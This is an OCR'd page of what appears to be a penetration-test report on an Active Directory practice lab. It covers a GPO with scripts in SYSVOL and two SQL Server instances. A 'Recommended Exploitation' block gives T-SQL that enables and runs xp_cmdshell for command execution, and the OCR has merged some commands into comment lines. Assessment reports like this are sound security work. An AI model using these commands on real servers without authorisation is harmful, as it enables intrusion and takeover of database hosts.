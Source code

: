 ### 5.3 Group Policy Security

**Discovered GPO:**

```
Container: {EE353C6E-B5DD-4C0A-B3BB-9A58D54B703D}
Name: StarkWallpaper
Location: SYSVOL\north.sevenkingdoms.local\Policies\
Scripts: script.ps1 (165 bytes), secret.ps1 (869 bytes)
```

**GPO Security Risks:**
- Credential exposure in SYSVOL scripts
- Logon/startup script injection possibilities
- Group Policy hijacking for persistence

---

## 6. SQL Server Security Assessment

### 6.1 Database Configuration Analysis

**SQL Server Instances:**

```
CASTELBLACK (192.168.20.22:1433):
├── Version: Microsoft SQL Server 2019 RTM (15.00.2000.00)
├── Service Account: sql_svc (Domain Account)
├── Certificate: SSL_Self_Signed_Fallback
├── Network Access: Unrestricted (Port 1433 exposed)
└── Authentication: Windows Authentication + SQL Server

BRAAVOS (192.168.20.23:1433):
├── Version: Microsoft SQL Server 2019 RTM (15.00.2000.00)
├── Service Account: Unknown (likely sql_svc)
├── Certificate: SSL_Self_Signed_Fallback
├── Network Access: Unrestricted (Port 1433 exposed)
└── Authentication: Windows Authentication + SQL Server
```

### 6.2 SQL Server Attack Vectors

**High-Priority Targets:**
1. **xp_cmdshell** - Command execution if enabled
2. **SQL Service Account** - Domain credentials via Kerberoasting
3. **Linked Servers** - Potential trust relationships
4. **SQL Agent Jobs** - Persistence mechanism

**Recommended Exploitation:**

```sql
-- Test for xp_cmdshellEXEC xp_cmdshell 'whoami';
-- Enable xp_cmdshell if disabledEXEC sp_configure 'show advanced options', 1; RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
-- SQL Server version and permissionsSELECT @@VERSION;
SELECT IS_SRVROLEMEMBER('sysadmin');
```

---